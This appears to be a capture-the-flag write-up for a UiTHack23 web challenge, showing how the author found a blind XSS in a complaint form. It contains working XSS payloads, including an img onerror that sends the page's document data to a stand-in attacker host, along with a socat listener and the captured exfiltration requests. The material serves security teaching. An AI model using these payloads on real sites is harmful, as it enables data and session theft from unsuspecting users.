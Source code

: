 # Flags 24/7

Bill gates approves this design

motherload.td.org.uit.no:5050

# Writeup

Looking at the website I found nothing at a first glance. There is a post which runs a request when pressing the get flag. I'll look more into that if it's not a read herring.

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"test","complaint":"test"}'
```

I sent a few requests but nothing seems to work. So I tried to see if someone was reading those complaints via HTML by sending exactly that, HTML data. Sending the following request while hosting a simple `socat` server using `socat - TCP-LISTEN:1234,fork,reuseaddr`. 

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"<img src='http://evil.corp:1234/email.png'>","complaint":"<img src='http://evil.corp:1234/complaint.png'>"}'
```

Seems to do nothing. So I'll looking at other things in the DOM. I found nothing really exploitable. Everything is local. The  logo is kinda weird it has a weird hash in it:

```
http://motherload.td.org.uit.no:5050/static/media/logoHeader.a2e1f8a09e95fdffdafd.png
```

Seems like nothing, crackstation did not have this hash, neither did google. But it is in the flags 24/7. Woah, there I got something in my socat session!

```bash
ubuntu@vm23152:~$ socat - TCP-LISTEN:1234,fork,reuseaddr
Listening on 0.0.0.0 1234
Connection received on 129.242.219.77 35664
GET /complaint.png HTTP/1.1
Host: evil.corp:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Wow, someone actually reads the complaints?  Seems like the complaint field is XSS'able. We're actually dealing with `Blind XSS`. This is when you can kinda add a ticking bomb to the system. You dont know when it is executed but once it does it will be run on the victims machine. So you need to keep your server up to receive the data. Seems like it runs every minute so I'll have to wait one minute for each test.

So I try to see if I can get RCE by getting the document object.

```json
{
	"email": "",
	"complaint": "<script>document.location= 'http://evil.corp:1234/?' + JSON.stringify(document)</script>"
}
```

Not really getting anything. Might be that script is filtered. Opening the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#dom-based-xss) reminded me of the onerror in image which ofcourse also executes scripts.

```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png\"'>"
}
```

Oh this worked, lets see if I can get document.cookie:


```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png?\" + JSON.stringify(document)'>"
}
```

And there we go we got the whole document object: 

```
GET /test.png?{%22location%22:{%22ancestorOrigins%22:{},%22href%22:%22http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>%22,%22origin%22:%22http://motherload.td.org.uit.no:5000%22,%22protocol%22:%22http:%22,%22host%22:%22motherload.td.org.uit.no:5000%22,%22hostname%22:%22motherload.td.org.uit.no%22,%22port%22:%225000%22,%22pathname%22:%22/admin%22,%22search%22:%22?sha256=<REDACTED>%22,%22hash%22:%22%22}} HTTP/1.1
Host: tjweb.no:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Some quick urlencoding, and prettifying:

```json
{
  "location": {
    "ancestorOrigins": {},
    "href": "http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>",
    "origin": "http://motherload.td.org.uit.no:5000",
    "protocol": "http:",
    "host": "motherload.td.org.uit.no:5000",
    "hostname": "motherload.td.org.uit.no",
    "port": "5000",
    "pathname": "/admin",
    "search": "?sha256=<REDACTED>",
    "hash": ""
  }
}
```

I think I'm breaking something I was not supposed to break here. But `motherload.td.org.uit.no:5000` is an external server running the `admin` endpoint. It gives a error `901 NO FLAG HERE`. But adding that redacted sha256 to the url request I get `test`. There is also a script loaded in there which looks like this:

```js
fetch(
  "http://motherload.td.org.uit.no:5000/db?sha256=<REDACTED>"
)
  .then((response) => {
    return response.json();
  })
  .then((data) => {
    displayCocktail(data);
  })
  .catch((error) => console.error("FETCH ERROR:", error));

function displayCocktail(data) {
  document.cookie = "flag=UiTHack23{xxspl0its_4r3_phun}";
  const cocktailDiv = document.getElementById("cocktail");
  try {
    data.forEach((issue) => {
      const cocktailName = document.createElement("div");
      cocktailName.innerHTML = issue[1];
      cocktailDiv.appendChild(cocktailName);
    });
  } catch (e) {}
}

phantom.exit();
```

Here I can see the flag. I also see that the endpoint `db` is showing our complaints once, then deletes them. So I could break it here by curling this endpoint ever 5 seconds and steal all your complaints. `*evil-laughter*`.  The meaning is that we are blind xss'ing the document.cookie as I read it. But I think I went a step further.

# Flag

```
UiTHack23{xxspl0its_4r3_phun}
```

